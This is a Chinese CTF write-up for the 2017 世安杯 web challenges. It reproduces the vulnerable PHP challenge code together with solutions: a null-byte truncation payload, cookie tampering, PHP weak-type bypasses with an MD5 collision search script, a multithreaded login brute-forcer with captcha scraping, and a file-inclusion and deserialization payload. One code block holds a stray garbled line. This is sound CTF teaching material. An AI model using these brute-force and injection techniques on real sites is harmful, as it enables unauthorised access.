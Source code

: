 ```yaml
---
title: 2017世安杯writeUp 
date: 2017-10-12 14:07:34
tags:
---
```


十月八号的时候，喊了涛哥和旺旺来工作室一起打比赛，之前看到是实验吧合作伙伴，大概就猜到了会有很多原题（结果没想到都是原题）。虽然这次比赛水平极差，但是感觉给新人做还是能增加点自信的，所以就把原题都复现了一下，放在自己的小服务器上，爆破密码的就不放了，服务器撑不住撑不住。



## Web

### ctf入门题目

```
<?php
$flag = '*****';

if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
        echo '<p class="alert">You password must be alphanumeric</p>';
    else if (strpos ($_GET['password'], '--') !== FALSE)
        die($flag);
    else
        echo '<p class="alert">Invalid password</p>';
}
?>
```

看到这种题没得话说，就是截断，ereg遇到null会停止判断。上网搜一大把，所以payload：1111%00--

### 曲奇饼

任意文件读取，line是改变读取的行数，所以一行一行的读index.php

```
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['file'])?$_GET['file']:""); 
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&file=a2V5LnR4dA=="); 
// 
$file_list = array( 
    '0' =>'key.txt', 
    '1' =>'index.php', 
    ); 
// 
if(isset($_COOKIE['key']) && $_COOKIE['key']=='li_lr_480'){ 
    $file_list[2]='thisis_flag.php'; 
} 
// 
if(in_array($file, $file_list)){ 
    $fa = file($file); 
    echo $fa[$line]; 
} 


?> 

```

思路为，如果$_COOKIE['key']的值为‘li_lr_480’就可以读到flag文件，所以在burpsuite中修改一下cookie值即可。

### 类型 

```
<!-- 类型 -->
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 

if (isset($_GET['x1'])) 
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
"x22":[[1],0]}
$x2=(array)json_decode(@$_GET['x2']); 
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

这种题之前也做过了，网上类似的题也很多。

先观察x1,发现x1不能等于1，在下面的switch有个漏洞（语言基础，不用break引发的），如果x1=0或者字符串（弱类型比较）[php弱类型比较表](http://php.net/manual/zh/types.comparisons.php)
就可以让a=1
x2是需要提交json，并且其中的x21不能为数字但是要比2017大，这里涉及到了PHP弱类型的
一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型intval再比(intval是直到
遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时)。所以另其为2018a即可
绕过。x22需要为数组且长度为2，并且[0]也为数组，并且其中的的某个数值与’XIPU’相比相
等，所以另[1]为0即可，
​x3是个老生长谈的话题了，利用的是php 0e+数字的字符串弱等于都相等。脚本跑即可：

```
import hashlib

zctf = 'abcdefuz'
a = 'abcdefghijklmnopqrstuvwxyz0123456789'
for i in a:
    for j in a:
        for k in a:
            for l in a:
                for m in a:
                    for n in a:
                        for o in a:
                            b =  "XIPU" + i + k + j + l + m + n + o
                            md5 = hashlib.md5()
                            md5.update(b.encode('utf-8'))
                            xx =  md5.hexdigest()
                            xx = unicode(xx,'utf-8')
                            # print xx.isnumeric()
                            if xx[8:10] == '0e' and xx[10:25].isnumeric():
                            # if xx[0:2] == '0e' and xx[2:31].isnumeric():
                                print b
```

### 登录

源码提示密码是5位数

验证码无法绕过，但是是直接显示在源码的，那就写脚本取验证码再爆破吧，这里是涛哥写的脚本，因为多线程爬虫还没写过，速度会很慢，所以只能靠涛哥了：

```
    #coding:utf-8
import sys, requests, os, subprocess
from functions import *

header = { \
'User-Agent':'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36', \
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'}

url = 'http://ctf1.shiyanbar.com/shian-s/index.php'

pwds = open('5num.txt').read().split('\n')
#pwds = match(open('ing.txt').read(), 'got! ', 'session: PHPSESSID=')
#
def bc_sub(arg):
    passwd = arg.get('passwd', '00000')
    s = requests.session()
    
    req = s.get(url)

    code = match(req.content, '<input name="randcode" type="text"><br><br>', '<br><br>      <input type="submit" value=')[0]

    qstr = '?username=admin&password=' + passwd + '&randcode=' + code
    #print url + qstr
    req2 = s.get(url + qstr)
    if(req2.status_code != 200):
        bc_sub(arg)
        return
    if(req2.content.find("密码错误") == -1):
        if(req2.content.find("网站访问认证，点击链接后将跳转到访问页面") != -1):
            bc_sub(arg)
            return
        print 'got! ' + passwd + "session: " + req.headers['Set-Cookie']
        open('geted', 'w').write('got! ' + passwd + "session: " + req.headers['Set-Cookie'] + '\n' + req2.content)
        #print req2.content
        
args = []

for line in pwds:
    args.append({"passwd": line})
    
starthread(bc_sub, 100, args)
```

### admin

```
<?php

$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}

<?php

class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}

```

首先是尝试了直接get提交"the user is admin"发现不行，后面想到试试php://input，发现可以，然后有文件包含漏洞，用php伪协议读源码，发现是个反序列化漏洞，在本地构造payload

```
class Read{//f1a9.php
    public $file = "f1a9.php";
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}

$Dfile = new Read();
echo serialize($Dfile);
```

最后令file=class.php就可以得到flag




